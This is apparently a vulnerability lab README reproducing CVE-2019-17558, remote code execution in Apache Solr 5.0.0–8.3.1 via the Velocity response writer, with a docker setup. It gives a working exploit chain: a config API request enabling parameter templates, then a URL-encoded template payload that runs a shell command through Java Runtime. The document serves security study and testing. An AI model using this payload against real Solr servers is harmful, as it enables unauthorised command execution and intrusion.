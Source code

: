 # Apache Solr Remote Code Execution Via Velocity Template (CVE-2019-17558)

[中文版本(Chinese version)](README.zh-cn.md)

Solr is the popular, blazing-fast, open source enterprise search platform built on Apache Lucene(TM).

Apache Solr 5.0.0 to Apache Solr 8.3.1 are vulnerable to a Remote Code Execution through the VelocityResponseWriter. A Velocity template can be provided through Velocity templates in a configset `velocity/` directory or as a parameter. A user defined configset could contain renderable, potentially malicious, templates. Parameter provided templates are disabled by default, but can be enabled by setting `params.resource.loader.enabled` by defining a response writer with that setting set to `true`. Defining a response writer requires configuration API access. Solr 8.4 removed the params resource loader entirely, and only enables the configset-provided template rendering when the configset is `trusted` (has been uploaded by an authenticated user).

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2019-17558>
- <https://issues.apache.org/jira/browse/SOLR-13971>
- <https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133>
- <https://github.com/jas502n/solr_rce>

## Environment Setup

Execute the following command to start an Apache Solr 8.2.0 server:

```
docker compose up -d
```

After the server starts, you can access the Apache Solr management interface at `http://your-ip:8983/`. No authentication is required.

## Vulnerability Reproduction

First, get all core names through the following API:

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

The `demo` is the only core in this environment:

![](1.png)

Enable the `params.resource.loader.enabled` configuration through the following API (the endpoint is `/solr/[core name]/config`):

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

Then, trigger the vulnerability by sending a malicious Velocity template:

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](2.png)
